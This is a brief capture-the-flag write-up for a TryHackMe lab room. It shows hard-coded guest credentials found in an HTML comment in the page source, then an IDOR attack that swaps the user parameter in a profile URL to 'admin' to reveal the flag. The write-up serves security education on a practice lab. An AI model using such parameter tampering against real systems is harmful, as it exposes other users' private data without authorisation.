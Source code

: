 ```bash
# PLATFORM          . THM
# CTF NAME          . Neighbour 
# DESCRIPTION       . Check out our new cloud service, Authentication Anywhere. Can you find other user's secrets?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/neighbour
```

- The login page is suggesting that we can use a `guest account` and indicates us to use CTRL + U

- By doing so, we end up in the source code where the following is revealed

```
<!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
```

- After logging in as user, we see the URL looking like this

```
http://10.10.206.181/profile.php?user=guest
```

- This is a very basic IDOR vulnerability and the admin flag can be revealed by using the following URL

```
http://10.10.206.181/profile.php?user=admin
```

